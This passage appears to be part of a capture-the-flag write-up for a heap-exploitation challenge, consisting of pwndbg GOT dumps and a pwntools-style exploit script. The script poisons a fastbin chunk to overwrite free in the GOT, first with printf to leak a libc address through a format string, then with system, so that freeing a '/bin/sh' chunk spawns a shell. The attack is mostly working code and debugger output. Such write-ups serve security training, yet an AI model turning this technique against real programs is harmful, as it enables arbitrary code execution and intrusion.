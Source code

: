 GOT protection: Partial RELRO | GOT functions: 12
 
[0x602018] free@GLIBC_2.2.5 -> 0x400700 (printf@plt) ◂— jmp    qword ptr [rip + 0x20192a]
[0x602020] puts@GLIBC_2.2.5 -> 0x7fe636e2c6a0 (puts) ◂— push   r12
[0x602028] __stack_chk_fail@GLIBC_2.4 -> 0x4006f6 (__stack_chk_fail@plt+6) ◂— push   2
[0x602030] printf@GLIBC_2.2.5 -> 0x7fe636e12810 (printf) ◂— sub    rsp, 0xd8
[0x602038] close@GLIBC_2.2.5 -> 0x400716 (close@plt+6) ◂— push   4
[0x602040] read@GLIBC_2.2.5 -> 0x7fe636eb4310 (read) ◂— cmp    dword ptr [rip + 0x2d2429], 0
[0x602048] __libc_start_main@GLIBC_2.2.5 -> 0x7fe636ddd750 (__libc_start_main) ◂— push   r14
[0x602050] malloc@GLIBC_2.2.5 -> 0x7fe636e41180 (malloc) ◂— push   rbp
[0x602058] setvbuf@GLIBC_2.2.5 -> 0x7fe636e2ce80 (setvbuf) ◂— push   rbp
[0x602060] open@GLIBC_2.2.5 -> 0x400766 (open@plt+6) ◂— push   9 /* 'h\t' */
[0x602068] atoi@GLIBC_2.2.5 -> 0x7fe636df3e90 (atoi) ◂— sub    rsp, 8
[0x602070] exit@GLIBC_2.2.5 -> 0x400786 (exit@plt+6) ◂— push   0xb /* 'h\x0b' */
pwndbg> ni
pwndbg> got

GOT protection: Partial RELRO | GOT functions: 12
 
[0x602018] free@GLIBC_2.2.5 -> 0x7fe636e023a0 (system) ◂— test   rdi, rdi
[0x602020] puts@GLIBC_2.2.5 -> 0x7fe636e2c6a0 (puts) ◂— push   r12
[0x602028] __stack_chk_fail@GLIBC_2.4 -> 0x4006f6 (__stack_chk_fail@plt+6) ◂— push   2
[0x602030] printf@GLIBC_2.2.5 -> 0x7fe636e12810 (printf) ◂— sub    rsp, 0xd8
[0x602038] close@GLIBC_2.2.5 -> 0x400716 (close@plt+6) ◂— push   4
[0x602040] read@GLIBC_2.2.5 -> 0x7fe636eb4310 (read) ◂— cmp    dword ptr [rip + 0x2d2429], 0
[0x602048] __libc_start_main@GLIBC_2.2.5 -> 0x7fe636ddd750 (__libc_start_main) ◂— push   r14
[0x602050] malloc@GLIBC_2.2.5 -> 0x7fe636e41180 (malloc) ◂— push   rbp
[0x602058] setvbuf@GLIBC_2.2.5 -> 0x7fe636e2ce80 (setvbuf) ◂— push   rbp
[0x602060] open@GLIBC_2.2.5 -> 0x400766 (open@plt+6) ◂— push   9 /* 'h\t' */
[0x602068] atoi@GLIBC_2.2.5 -> 0x7fe636df3e90 (atoi) ◂— sub    rsp, 8
[0x602070] exit@GLIBC_2.2.5 -> 0x400786 (exit@plt+6) ◂— push   0xb /* 'h\x0b' */
```
to find the index
```python
add(0x50, '000000')
add(0x50, '111111')
add(0x10, '.%17$p.')
add(0x10, '/bin/sh\0')

delete(1)
edit(0, 0x100, flat('x' * 0x50, 0, 0x61, 0x601ffa))

add(0x50, '222222')
# add(0x50, cyclic(n=8, length=0x30))
add(0x50, flat('\0' * 14, flat(elf.sym['printf'])[:6]))

delete(2)
p.recvuntil('.')
libc.address = int(p.recvuntil('.', drop = True), 16) - 0x20840
print('libc @ {:#x}'.format(libc.address))
assert libc.address & 0xfff == 0

edit(4, 0x50, flat('\0' * 14, flat(libc.sym['system'])[:6]))
pause()
delete(4)
```
gdb set break to free of delete, ```gdb -q -p `pidof pwn` -ex "b *0x400CDD" -ex "c"```
check free is changed to system, index is 3
```
pwndbg> got

GOT protection: Partial RELRO | GOT functions: 12
 
[0x602018] free@GLIBC_2.2.5 -> 0x7f67416393a0 (system) ◂— test   rdi, rdi
[0x602020] puts@GLIBC_2.2.5 -> 0x7f67416636a0 (puts) ◂— push   r12
[0x602028] __stack_chk_fail@GLIBC_2.4 -> 0x4006f6 (__stack_chk_fail@plt+6) ◂— push   2
```